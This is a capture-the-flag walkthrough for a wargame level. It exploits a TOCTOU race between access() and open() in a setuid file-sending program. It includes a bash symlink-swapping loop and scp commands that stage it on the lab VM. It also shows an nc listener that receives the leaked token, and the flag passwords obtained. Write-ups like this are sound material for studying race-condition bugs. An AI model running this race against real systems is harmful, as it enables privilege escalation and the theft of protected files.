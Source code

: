

```
The program sends a file given as argv[1] to an host specified as argv[2] at port 6969.

It check's for the permission with access() and then it opens the file if the permission check is ok.

We encounter a race condition here (TOCTOU).

If we create a file that is a symlink of the targeted file and we create a program that switch it's linked file really fast. We can pretend to point to a authorized file for the access() check but rapidly change the link to the targeted file for the open syscall and we have bypassed the check.
```

\- Let's make a script in bash:
```bash
#!/bin/bash

while true
do
	rm -rf /tmp/link
	ln -sf /tmp/test /tmp/link # symlink /tmp/link -> /tmp/test
	rm -rf /tmp/link
	ln -sf token /tmp/link # symlink /tmp/link -> token
done
```


\- Let's try to transfer the exploit file to the targeted host, set up the context for the exploit and finally exploit :
```bash
[Local]:
> scp -P 4242 exploit.sh level10@192.168.56.101:/tmp
> nc -lnvp 6969	

[VM]:
> cd /tmp
> touch /tmp/test
> ./exploit.sh 
> while true ; do (./level10 /tmp/link 192.168.56.1); done

[Local]:                              
Listening on 0.0.0.0 6969
Connection received on 192.168.56.101 33282
.*( )*.
woupa2yuojeeaaed06riuj63c

> su flag10
> getflag
feulo4b72j7edeahuete3no7c
```

*feulo4b72j7edeahuete3no7c*